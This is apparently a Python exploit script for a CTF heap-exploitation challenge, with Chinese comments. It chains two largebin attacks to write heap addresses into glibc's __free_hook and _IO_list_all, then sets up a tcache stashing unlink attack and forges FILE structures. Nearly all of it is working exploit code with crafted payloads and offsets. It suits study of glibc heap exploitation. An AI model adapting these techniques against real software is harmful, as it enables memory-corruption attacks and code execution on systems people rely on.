 ```python
#释放 0x450堆块 chunk8
Del(8)
#使得 chunk8 进入 largebin
Add(0x450, 'B'*0x168) # B9

#释放0x440堆块进入 unsortedbin，其size 小于 chunk8
Change(1)
Del(17)
#修改chunk8->bk_nextsize = free_hook-0x28
Change(2)
free_hook = libc_base + libc.sym['__free_hook']
Edit(8, p64(0) + p64(free_hook-0x28) + b'\n')
#触发largebin attack
Change(3)
#注意B8的大小是0x450，这里不能add(0x440)
#只要触发了unsortedbin循环就可以，unsorted bin中的large chunk会先被放入largebin再拿出来切割
Add(0xa0, 'C'*0x28) # C0 triger largebin_attack, write a heap addr to __free_hook-8
#修复chunk8
Change(2)
# recover B8的fd-nextsize,bk-nextsize指向自己
#此时largebin中只有B8，配合下一次largebin attack
Edit(8, 2*p64(heap_base+0x13e80) + b'\n') 

print("---> 2 largebin attack to change _IO_list_all")
#----- second largebin_attack
#将unsortedbin 清空
Change(3)
Add(0x380, 'C'*0x118) # C1
#释放A19 0x440到unsortedbin中
Change(1)
Del(19)
#修改chunk8->bk_nextsize = io_list_all-0x20
Change(2)
IO_list_all = libc_base + libc.sym['_IO_list_all']
Edit(8, p64(0) + p64(IO_list_all-0x20) + b'\n')
#触发largebin attack
Change(3)
Add(0xa0, 'C'*0x28) # C2 triger largebin_attack, write a heap addr to _IO_list_all
#修复largebin
Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + b'\n') # recover

print("==== tcache stashing unlink attack and FILE attack")
#----- tcache_stashing_unlink_attack and FILE attack
#修改smallbin 中的第一个chunk的 bk指针为 free_hook-0x20,smallbin: chunk8->chunk7
#target-0x10=free_hook-0x20,target=free_hook-0x10,free_hook-0x8可写，因为之前将其写入了一个堆地址
Change(1)
#这个地方要留意，A8为calloc(0x180),又被分割,calloc(0xe0)，而B每次只能写入0x10-0x20的位置
#0x10 0x40 0x70 0xa0 0xd0 0x100   0x190=0x10+0xe0+0xa0，所以这个payload刚好可以实现修改smallbin 中的第一个chunk的 bk指针，注意fd不要改变
payload = b'A'*0x50 + p64(heap_base+0x12280) + p64(free_hook-0x20)
Edit(8, payload + b'\n')

#申请largebin中的chunk8,用来伪造一个FILE结构体，并将FILE结构体的chain指针指向另一个伪造的FILE结构体堆块，这里不直接用它伪造是因为该堆块限制写,因此让
#这个地方的FILE结构体的chain指针指向当前unsorted bin中残留的chunk头部
Change(3)
#刚好是FAKE FILE的0x68处，也就是*chain写入这个堆地址
payload = b'\x00'*0x18 + p64(heap_base+0x147c0)
payload = payload.ljust(0x158, b'\x00')
print("change fake FILE chain")
#unsorted bin中的heap_base+0x147c0进入了small bin
#largebin中的chunk被取出,同时这也是_IO_list_all[0]存的堆地址
Add(0x440, payload) # C3 change fake FILE _chain
```